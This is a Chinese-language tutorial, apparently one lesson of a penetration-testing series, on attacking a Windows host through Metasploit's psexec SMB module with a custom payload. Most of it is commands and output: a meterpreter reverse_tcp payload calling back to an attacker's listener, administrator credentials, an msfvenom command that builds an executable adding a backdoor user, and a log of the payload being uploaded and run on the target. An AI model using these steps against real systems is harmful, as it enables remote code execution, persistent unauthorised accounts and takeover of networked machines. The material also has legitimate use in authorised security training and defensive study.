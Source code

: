 MSF的exploit模块下是支持set payload的，同样在复杂的网络环境下，许多模块也同样支持自定义的payload。可以更好的配合第三方框架，如第十一课中提到的Veil-Evasion等。

以exploit/windows/smb/psexec为demo。

攻击机配置如下：
```bash
msf exploit(windows/smb/psexec) > show options 

Module options (exploit/windows/smb/psexec): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
RHOST 192.168.1.119 yes The target address
RPORT 445 yes The SMB service port (TCP)
SERVICE_DESCRIPTION no Service description to to be used on target fo rpretty listing
SERVICE_DISPLAY_NAME no The service display name
SERVICE_NAME no The service name
SHARE ADMIN\$ yes The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
SMBDomain . no The Windows domain to use for authentication
SMBPass 123456 no The password for the specified username
SMBUser administrator no The username to authenticate as Payload options (windows/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST 192.168.1.5 yes The listen address (an interface may be specified)
LPORT 53 yes The listen port 

Exploit target: 
Id Name
‐‐ ‐‐‐‐
0 Automatic 
```
![](media/a88d25b5d8817aab5ef240672283dc24.jpg)

需设置一非，常用选项：

```bash
msf exploit(windows/smb/psexec) > set EXE::CUSTOM /var/www/html/bin_tcp_x86_53.exe
EXE::CUSTOM => /var/www/html/bin_tcp_x86_53.exe
```
![](media/adf249249993b5500e984f8c8bc6eba2.jpg)

靶机当前端口如下：  

![](media/7e2ed442134c4d03288e48471a79360d.jpg)

攻击机执行：

![](media/0f2ab61af6eba4c35ce5f14a3eadee06.jpg)

靶机端口变化如下：

虽报错，但并不影响执行。  

![](media/f052e2fa45e58d72f484f56afb1772d9.jpg)

**注意：**

Psexec创建一个服务后，来运行可执行文件（如Micropoor.exe）。但是将可执行文件作为服务，payload必须接受来自控制管理器的命令，否则将会执行失败。而psexec创建服务后，将随之停止，该payload处于挂起模式。

参考该服务源码：  

https://github.com/rapid7/metasploit-framework/blob/master/data/templates/src/pe/exe/service/service.c  

payload启动后，将会在过一段时间内退出。并强制终止。

故该参数一般用于adduser。配合adduser_payload。或者配合一次性执行完毕非常连接的payload。如下载。抓明文密码等。不适合需长连接通信的payload。

```bash
root@John:/tmp# msfvenom ‐p windows/adduser PASS=Micropoor$123 USER=Micropoor ‐f exe >adduser.exe
[‐] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[‐] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 279 bytes
Final size of exe file: 73802 bytes 
```

![](media/6c388c67acdf21788d40d364d510e93e.jpg)

**同样可以配合target的改变来解决控制管理器的强制命令接收。**

**攻击机设置：**

```bash
msf exploit(windows/smb/psexec) > show targets 

Exploit targets: 

Id Name
‐‐ ‐‐‐‐
0 Automatic
1 PowerShell
2 Native upload
3 MOF upload
msf exploit(windows/smb/psexec) > set target 2
target => 2
msf exploit(windows/smb/psexec) > exploit 

[*] Started reverse TCP handler on 192.168.1.5:53
[*] 192.168.1.119:445 ‐ Connecting to the server...
[*] 192.168.1.119:445 ‐ Authenticating to 192.168.1.119:445 as user 'administrator'...
[*] 192.168.1.119:445 ‐ Uploading payload... kKwZpPRs.exe
[*] 192.168.1.119:445 ‐ Using custom payload /var/www/html/bin_tcp_x86\_53.exe, RHOST and RPORT settings will be ignored!
[*] 192.168.1.119:445 ‐ Created kKwZpPRs.exe...
[‐] 192.168.1.119:445 ‐ Unable to remove the service, ERROR_CODE:
[‐] 192.168.1.119:445 ‐ Exploit failed: RubySMB::Error::UnexpectedStatusCode STATUS_PIPE_EMPTY
[*] Exploit completed, but no session was created.
```
![](media/f0440595204a8fb13d4f8dbcf22925ec.jpg)

目标机：  

![](media/e5b1a086c8f9b612acde771c1cb82884.jpg)

在执行payload即可。

>   Micropoor
